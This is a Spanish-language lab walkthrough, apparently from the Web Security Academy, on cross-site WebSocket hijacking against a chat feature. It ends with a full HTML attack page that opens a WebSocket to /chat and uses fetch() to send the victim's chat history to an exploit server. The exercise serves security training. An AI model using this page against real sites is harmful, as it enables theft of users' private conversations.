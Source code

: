 El chat utiliza **WebSocket** de la siguiente forma:

```javascript
var webSocket = new WebSocket(chatForm.getAttribute("action"));
```

También podemos ver que la función **sendMessage()** llama a **htmlEncode()** para codificar en HTML nuestro input:

```javascript
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```

Como puedes ver, **codifica en HTML muchos caracteres especiales**, por lo que **un XSS basado en el DOM tradicional no sería explotable aquí.**

Si la **solicitud de handshake del WebSocket** es vulnerable a **CSRF**, entonces la página web de un atacante **puede realizar una solicitud cross-site para abrir un WebSocket en el sitio vulnerable**.

Para lograr esto, **voy a crear un formulario HTML** que **envíe automáticamente una solicitud WebSocket a /chat** con el mensaje **READY**, y que **exfiltre el historial de chat de la víctima**.

```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <script>
            // Create a new WebSocket object that points to /chat endpoint
            var webSocket = new WebSocket('wss://0a1f00e1046478b380b4e48300e500f6.web-security-academy.net/chat');
            webSocket.onopen = function() {
                // Send "READY" message to /chat to render the chat history
                webSocket.send("READY");
            };
            webSocket.onmessage = function(event) {
                // Send a GET request with the chat history to exploit server 
                fetch('https://exploit-0a6f001d042378708046e31b01b00092.exploit-server.net/log?'+event.data, {method: 'GET'});
            };
        </script>
    </body>
</html>

```
